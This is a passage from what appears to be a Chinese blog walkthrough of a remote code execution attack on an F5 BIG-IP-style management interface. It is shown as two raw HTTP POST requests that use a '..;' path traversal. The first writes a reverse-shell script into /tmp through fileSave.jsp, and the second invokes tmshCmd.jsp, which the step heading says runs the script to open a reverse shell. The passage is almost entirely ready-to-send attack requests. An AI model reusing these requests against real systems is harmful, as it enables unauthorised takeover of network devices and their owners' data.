 


![](https://img-blog.csdnimg.cn/20200708140457377.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**二：写入sh文件**



```
POST /tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp HTTP/1.1      
Host: xx.xx.xx.xx      
Connection: close      
Upgrade-Insecure-Requests: 1      
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36      
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9      
Sec-Fetch-Site: same-origin      
Sec-Fetch-Mode: navigate      
Sec-Fetch-Dest: document      1
Referer: https://xx.xx.xx.xx/      1
Accept-Encoding: gzip, deflate      1
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8      1
Content-Type: application/x-www-form-urlencoded      1
Content-Length: 175       1
fileName=/tmp/xx.sh&content=URL编码后的反弹shell命令
```




![](https://img-blog.csdnimg.cn/20200708140639414.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**三：执行sh脚本反弹shell** 



```
POST /tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp HTTP/1.1      
Host: xx.xx.xx.xx      
Connection: close      
Upgrade-Insecure-Requests: 1      
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36      
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9      
Sec-Fetch-Site: same-origin      
Sec-Fetch-Mode: navigate      
Sec-Fetch-Dest: document      1
Referer: https://xx.xx.xx.xx/      1
Accept-Encoding: gzip, deflate      1
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8      1
Content-Type: application/x-www-form-urlencoded      1
Content-Length: 23       1
command=list+/tmp/xx.sh
```
